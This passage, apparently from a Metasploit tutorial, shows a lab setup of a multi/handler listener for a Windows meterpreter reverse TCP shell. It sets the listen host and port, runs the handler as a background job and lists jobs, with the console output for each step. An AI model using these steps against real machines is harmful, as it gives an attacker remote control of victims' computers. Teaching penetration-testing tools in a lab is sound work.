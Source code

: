 ```
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port


...
```
We need to set the local host (`LHOST`) address because it's a required option. We may also want to set the listening port (`LPORT`).
```
msf exploit(handler) > set LHOST 192.168.1.15
```
```
LHOST => 192.168.1.15
```
```
msf exploit(handler) > set LPORT 8080
```
```
LPORT => 8080
```
```
msf exploit(handler) > options
```
<pre><code>
...
Payload options (windows/meterpreter/reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   <b>LHOST         192.168.1.15     yes       The listen address</b>
   <b>LPORT         8080             yes       The listen port</b>
</code></pre>
## Running the exploit
We can now run the exploit using `run` or `exploit`. To start the exploit as a background job, we use the `-j` option. You may want to use `help run` to see other options of the `run`/`exploit` command.
```
msf exploit(handler) > run -j
```
```
[*] Exploit running as background job.
[*] Started reverse TCP handler on 192.168.1.15:8080 
[*] Starting the payload handler...
```
We now have a server running on our Kali box at `192.168.1.15` listening at port `8080`.

To check the running job(s), use `jobs -l`, or simply `jobs`:
```
msf exploit(handler) > jobs
```
```
Jobs
====

  Id  Name                    Payload                          Payload opts
  --  ----                    -------                          ------------
  0   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://192.168.1.15:8080
```
We can see our job running with ID `0`. When we are ready to end the job and kill the server, we use `kill <job id>` or `jobs -k <job id>`, but we are not ready to end our job just yet. 
